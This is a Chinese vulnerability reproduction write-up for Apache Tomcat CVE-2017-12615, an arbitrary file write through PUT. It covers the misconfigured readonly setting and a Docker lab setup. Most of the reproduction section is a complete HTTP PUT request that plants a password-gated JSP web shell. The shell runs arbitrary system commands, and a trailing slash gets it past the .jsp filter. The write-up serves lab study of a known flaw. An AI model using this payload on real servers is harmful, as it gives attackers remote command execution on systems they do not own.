

Apache Tomcat PUT方法任意写文件漏洞 CVE-2017-12615¶
漏洞描述¶
参考：
- http://wooyun.jozxing.cc/static/bugs/wooyun-2015-0107097.html
- https://mp.weixin.qq.com/s?__biz=MzI1NDg4MTIxMw==&mid=2247483659&idx=1&sn=c23b3a3b3b43d70999bdbe644e79f7e5
- https://mp.weixin.qq.com/s?__biz=MzU3ODAyMjg4OQ==&mid=2247483805&idx=1&sn=503a3e29165d57d3c20ced671761bb5e
漏洞本质Tomcat配置了可写（readonly=false），导致我们可以往服务器写文件：
<servlet>
<servlet-name>default</servlet-name>
<servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
<init-param>
<param-name>debug</param-name>
<param-value>0</param-value>
</init-param>
<init-param>
<param-name>listings</param-name>
<param-value>false</param-value>
</init-param>
<init-param>
<param-name>readonly</param-name>
<param-value>false</param-value>
</init-param>
<load-on-startup>1</load-on-startup>
</servlet>
虽然Tomcat对文件后缀有一定检测（不能直接写jsp），但我们使用一些文件系统的特性（如Linux下可用/）来绕过了限制。
漏洞影响¶
Apache Tomcat 7.0.0-7.0.81（默认配置）
环境搭建¶
Vulhub启动Tomcat 8.5.19环境：
docker-compose build
docker-compose up -d
运行完成后访问http://your-ip:8080即可看到Tomcat的Example页面。
漏洞复现¶
直接发送以下数据包即可在Web根目录写入shell：
PUT /2.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5
<% if("poc".equals(request.getParameter("pwd"))){
java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
int a = -1; byte[] b = new byte[2048]; out.print("<pre>");
while((a=in.read(b))!=-1){
out.println(new String(b,0,a));
}
out.print("</pre>");
}
%>
如下：
